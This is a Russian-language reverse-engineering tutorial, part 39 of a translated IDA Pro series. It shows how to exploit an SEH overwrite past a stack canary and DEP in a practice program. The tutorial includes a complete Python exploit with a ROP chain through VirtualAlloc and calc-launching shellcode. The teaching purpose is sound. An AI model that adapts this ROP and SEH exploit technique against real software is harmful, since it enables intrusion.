# Часть 39

У нас остался последний случай эксплуатации переполнения стека с защитами **CANARY** и **DEP** для перезаписи **SEH**.



Мы переименовываем имя исполняемого файла и присоединяемся к нему с помощью **IDA**, чтобы увидеть, что случиться.



Так же как и раньше, программа закрывается, когда стек заканчивается. Давайте посмотрим её **SEH**,



Как и в предыдущем случае, программа перезаписывает указатель на гаджет **POP - POP - RET**. Давайте установим здесь **BP**.



Я нажимаю клавишу **F9** и принимаю исключение.



Здесь, как и всегда стек находится на третьей позиции. Есть указатель на поле **NEXT**.


Если я исполню инструкции с помощью клавиши **F7**.



Программа перейдёт на выполнение в стек. Эта инструкция **JMP** состоит из байтов **EB 06 90 90** из поля **NEXT**, но когда я хочу исполнить эту инструкцию, я получаю ошибку.



Стек не может быть выполнен, потому что здесь есть защита **DEP**. Нам необходимо запустить **ROP**.

Проблема заключается в том, что стек переместился для выполнения **ROP** и наши данные не указаны регистром **ESP** для продолжения выполнения **ROP**. Поэтому, в этом случае вместо гаджета **POP** - **POP** - **RET** нам нужен гаджет, который исправляет стек к моменту выполнения инструкции **RET** этого **ГАДЖЕТ**. Он берет один из моих адресов стека для того, чтобы вернуть управление, и продолжает выполнение **ROP**.

Мы видели, что в моем случае, перед выполнением гаджета **POP – POP - RET**, регистр **ESP** равен **0xAFEF98**



И я буду искать этот адрес в стеке где начинаются мои данные.

Я установил этот адрес, чтобы найти непосредственное значение **0x41414141**.



Мы видим, что данные начинается по адресу **0xAFF5A8**. Теперь мы можем рассчитать расстояние. Данные находятся ниже **ESP**.

>**HEX\(0xAFF5A8 - 0xAFEF98\)**



Таким образом, расстояние между **ESP** и началом моих данных равно **0x610** байт. Это означает, что если я найду гаджет

>**ADD ESP, XXXX - RET**

Если значение **XXXX** больше чем **0x610** байт, когда он находится внутри диапазона стека, **ESP** будет перемещаться туда, где мои данные будут продолжать выполнение **ROP**.

Давайте посмотрим гаджеты **MYPEPE**.



Я вижу, что программа добавляет ещё **0x30** байт к **ESP**. Код не достигнет моего фруктового шеллкода.

К сожалению, у программы нет гаджета или, по крайней мере, я не нашел такой гаджет. Даже используя утилиту **AGAFI** у меня ничего не получается. Программа приложена к туториалу для тех, кто хочет научиться ей пользоваться.



Я запускаю **GISNAP** на процессе остановленном после обработки исключения, например на первом **POP** гаджета **POP** - **POP** - **RET**, без каких-либо действий.

Этот **GISNAP** будет делать дамп процесса. Затем я должен отредактировать файл **OBJECTIVE.TXT** программы **AGAFI** устанавливающей условие, которое мы хотим. В этом случае оно может быть таким.

>**ESP = \[ESP + 0x08\]**

И мы можем настроить программу только для того, чтобы начать поиск с определенного исполняемого файла, в нашем случае это **MYPEPE.DLL**.

Я комментирую в файле условие и диапазон, и пишу тот, который мне нужен.



Затем я запускаю **AGAFI** используя имя дампа, который я сделал раньше, и сохраняю его в ту же папку и с тем же именем.

>**AGAFI.EXE OBJECTIVE.TXT DUMPED.DMP PEPE.TXT**

Программа нашла некоторые редкие гаджеты, но есть одна проблема.

```
----------------------------------------
[x] VALID GADGET AT: 7801194E
--> MATHES: ESP = [ESP + 0x8]
--> STACK USED: N/A
--> PRESERVED REGISTERS:
*** 7801194E: CLC
*** 7801194F: POPA
*** 78011950: JL 0x7801195A
*** 7801195A: POP EBX
*** 7801195B: LEAVE
*** 7801195C: RET
```

Это то, что происходит после его запуска. **ESP** снова указывает на **SEH** и переходит назад на тот же гаджет и разрывается второй раз для значения регистра **EBP 0x41414141**, которое помещается в регистр **ESP** в **LEAVE** - **RET**.

Хорошо. Чтобы победить защиту и показать, как это сделать, я добавлю инструкцию **ADD ESP**, **XXXX** - **RET** в **MYPEPE**.



Мы будем использовать это как гаджет для перехода из **SEH**.



Давайте попробует перейти туда, где программа переставала работать, обработав исключение.



Мы видим, что после выполнения инструкции **ADD ESP**, **700** я готов продолжить выполнять наш **ROP**, а затем и сам шеллкод.

Мы видим расстояние, на которое должен идти **ROP**. Сейчас я нахожусь по адресу **ESP = 0xEFF5C0**. Давайте посмотрим где начинаются мои данные.


Данные начинаются по адресу **0xEFF4D4**. Я могу сделать вычитание и увидеть нужное расстояние.



Я подготавливаю скрипт.

```python
from os import *

import struct

def create_rop_chain():

# rop chain generated with mona.py - [www.corelan.be](http://www.corelan.be/)

rop_gadgets = [
    0x7801eb94, # POP EBP # RETN [Mypepe.dll]
    0x7801eb94, # skip 4 bytes [Mypepe.dll]
    0x7801ee74, # POP EBX # RETN [Mypepe.dll]
    0x00000001, # 0x00000001-> ebx
    0x7802920e, # POP EDX # RETN [Mypepe.dll]
    0x00001000, # 0x00001000-> edx
    0x7800a849, # POP ECX # RETN [Mypepe.dll]
    0x00000040, # 0x00000040-> ecx
    0x78028756, # POP EDI # RETN [Mypepe.dll]
    0x7800b281, # RETN (ROP NOP) [Mypepe.dll]
    0x78001492, # POP ESI # RETN [Mypepe.dll]
    0x780041ed, # JMP [EAX] [Mypepe.dll]
    0x78013953, # POP EAX # RETN [Mypepe.dll]
    0x7802e030, # ptr to &VirtualAlloc() [IAT Mypepe.dll]
    0x78009791, # PUSHAD # ADD AL,80 # RETN [Mypepe.dll]
    0x7800f7c1, # ptr to 'push esp # ret ' [Mypepe.dll]
]

return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

shellcode ="\xB8\x40\x50\x03\x78\xC7\x40\x04"+ "calc" + "\x83\xC0\x04\x50\x68\x24\x98\x01\x78\x59\xFF\xD1\x68\xAB\x39\x00\x78\xC3"

stdin, stdout = popen4(r'CANARY_con_DEP.exe -1')

print "ATACHEA EL DEBUGGER Y APRETA ENTER\n"

raw_input()

rop = create_rop_chain()

next = "\x41\x41\x41\x41"

seh = struct.pack("<L", 0x7802d415)

data = (0xec) * "A" + rop + shellcode

fruta = data + ((844-len(data)) * "A" )+ next + seh + 6000 * "A" + "\n"

print stdin

print "Escribe: " + fruta

stdin.write(fruta)

print stdout.read(40)
```

Мы видим, что скрипт использует тот же **ROP** что и раньше, и добавляет тот же шеллкод для **MYPEPE** и он работает.



Мы видим, что когда я прихожу в инструкцию **RET**, **ROP** остается в стеке с самого начала, чтобы продолжить исполнять **ROP** и выполнять шеллкод.



Теперь у нас запускается калькулятор.

* * *

Автор оригинального текста — Рикардо Нарваха.

Перевод и адаптация на английский  язык — IvinsonCLS.

Перевод и адаптация на русский язык — Яша Яшечкин.

Перевод специально для форума системного и низкоуровневого программирования - WASM.IN

08.04.2018

Источник:

[**http://ricardonarvaja.info/WEB/INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO/39-INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO%20PARTE%2039.7z**](http://ricardonarvaja.info/WEB/INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO/39-INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO%20PARTE%2039.7z)
